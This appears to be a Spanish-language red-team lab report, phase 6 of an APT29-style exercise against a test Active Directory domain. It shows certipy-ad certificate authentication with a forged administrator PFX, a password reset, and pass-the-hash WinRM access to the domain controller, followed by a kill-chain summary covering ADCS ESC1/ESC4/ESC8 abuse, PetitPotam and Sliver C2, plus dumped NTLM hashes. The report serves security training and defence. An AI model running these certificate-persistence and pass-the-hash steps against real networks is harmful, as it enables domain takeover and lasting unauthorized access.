




# Persistence & Objective — Operación DARK GATE
## Fase 6 — Persistencia via Certificado + Objetivo Final
**Operación:** DARK GATE | **Adversario:** APT29 | **Framework:** MITRE ATT&CK v14  
**Operador:** Adrián Camacho | **Fecha:** 17/05/2026

---

## FASE 6 — Certificate-Based Persistence

**Tácticas MITRE:** TA0003 — Persistence / TA0006 — Credential Access  
**Técnica:** T1649 — Steal or Forge Authentication Certificates

### Contexto técnico

La persistencia via certificado es la técnica de persistencia más silenciosa en entornos AD. A diferencia de contraseñas o tickets Kerberos, un certificado válido:
- **Persiste tras rotación de contraseñas** — el certificado sigue siendo válido independientemente de la contraseña
- **Válido por 1 año por defecto** — larga duración sin necesidad de renovar acceso
- **Difícil de detectar** — no genera logs de autenticación por contraseña
- **Resistente a medidas defensivas estándar** — cambiar contraseñas no invalida certificados

---

### 6.1 — Verificar persistencia del certificado
> 📸 Captura: 

```bash
certipy-ad auth \
  -pfx administrador.pfx \
  -dc-ip 10.0.2.10 \
  -domain atackcorp.local
```

**Output:**
```
[*] Got TGT
[*] Got hash for 'administrador@atackcorp.local': 
    aad3b435b51404eeaad3b435b51404ee:b73fdfe10e87b4ca5c0d957f81de6863
```

Certificado válido — TGT y hash obtenidos. ✅

---

### 6.2 — Rotar contraseña del Administrador
> 📸 Captura: 

```powershell
# En Evil-WinRM — simular rotación de contraseña defensiva
net user Administrador "NuevaPassword2026!"
# → El comando se completó correctamente.
```

---

### 6.3 — Certificado sigue válido post-rotación
> 📸 Captura: 

```bash
certipy-ad auth \
  -pfx administrador.pfx \
  -dc-ip 10.0.2.10 \
  -domain atackcorp.local
```

**Output:**
```
[*] Got TGT
[*] Got hash for 'administrador@atackcorp.local': 
    aad3b435b51404eeaad3b435b51404ee:bc3abc2e0673a58e9e559d415b56d69d
```

**Nuevo hash obtenido con el mismo certificado** — la contraseña cambió pero el acceso persiste. ✅

| | Antes | Después |
|--|-------|---------|
| Contraseña | `NuevaPassword2026!` (desconocida) | `NuevaPassword2026!` |
| Hash NTLM | `b73fdfe10e87b4ca5c0d957f81de6863` | `bc3abc2e0673a58e9e559d415b56d69d` |
| Certificado válido | ✅ | ✅ |
| Acceso DA | ✅ | ✅ |

---

### 6.4 — Prueba de objetivo final
> 📸 Captura: 

```bash
evil-winrm -i 10.0.2.10 \
  -u Administrador \
  -H bc3abc2e0673a58e9e559d415b56d69d
```

```
*Evil-WinRM* PS C:\Users\Administrador.DC-01\Documents> whoami
atackcorp\administrador
*Evil-WinRM* PS C:\Users\Administrador.DC-01\Documents> hostname
DC-01
*Evil-WinRM* PS C:\Users\Administrador.DC-01\Documents> ipconfig | findstr IPv4
   Dirección IPv4. . . . . . . . . . . . . . : 10.0.2.10
```

**DC-01 comprometido como Domain Admin — objetivo completado.** ✅

---

## Resumen global — Operación DARK GATE

```
KILL CHAIN COMPLETA
════════════════════════════════════════════════════════════════

[Kali 10.0.2.9]
  │ certipy-ad find → ESC1 + ESC4 + ESC8 identificados
  ▼
[FASE 1] Reconnaissance ✅
  AtackCorp-CA @ DC-01.atackcorp.local
  VulnerableUser → ESC1 (Enrollee Supplies Subject)
  fin.garcia → ESC4 (GenericWrite + WriteDacl)
  http://10.0.2.10/certsrv/ → ESC8 (NTLM Relay)

[FASE 2] ESC1 — ceo.martinez → Administrador ✅
  certipy req -upn Administrador@atackcorp.local
  administrador.pfx → TGT + hash b73fdfe1...
  evil-winrm Pass-the-Hash → shell DA

[FASE 3] ESC4 — fin.garcia → plantilla modificada ✅
  certipy template -write-default-configuration
  administrador_esc4.pfx (Request ID: 5)
  plantilla restaurada (OPSEC)

[FASE 4] ESC8 — NTLM Relay identificado ✅ / bloqueado ⚠️
  PetitPotam coerción exitosa (Attack worked)
  Relay SMB→HTTP bloqueado por KB5005413 (WS2022)
  Documentado como comportamiento real en entornos modernos

[FASE 5] C2 — CLINICAL_CHAIRMAN (4d1146b0) ✅
  DC-01 → ATACKCORP\Administrador
  Tres beacons activos: Lab-01, Lab-02, Lab-03

[FASE 6] Persistencia via certificado ✅
  Contraseña rotada → certificado sigue válido
  Nuevo hash: bc3abc2e0673a58e9e559d415b56d69d
  evil-winrm con nuevo hash → DA confirmado

CREDENCIALES OBTENIDAS:
  Administrador (pre-rotación)  : b73fdfe10e87b4ca5c0d957f81de6863
  Administrador (post-rotación) : bc3abc2e0673a58e9e559d415b56d69d
  Certificado persistente       : administrador.pfx (válido 1 año)

TÉCNICAS MITRE — TOTAL OPERACIÓN:
  T1046          → Network Service Discovery (Certipy find)
  T1649          → Steal or Forge Authentication Certificates (ESC1/ESC4)
  T1222          → File and Directory Permissions Modification (ESC4)
  T1557.001      → NTLM Relay (ESC8 — identificado)
  T1187          → Forced Authentication (PetitPotam)
  T1550.002      → Pass-the-Hash (evil-winrm)
  T1021.006      → WinRM Lateral Movement
  T1587.001      → Develop Capabilities (Sliver beacon)
  T1105          → Ingress Tool Transfer
  T1071.001      → C2 HTTPS (Sliver)
  T1573.002      → Encrypted Channel
  T1649          → Certificate Persistence (post-rotación)
```

---

**Documentación siguiente:** [lessons_learned.md](lessons_learned.md) | [mitigations.md](mitigations.md)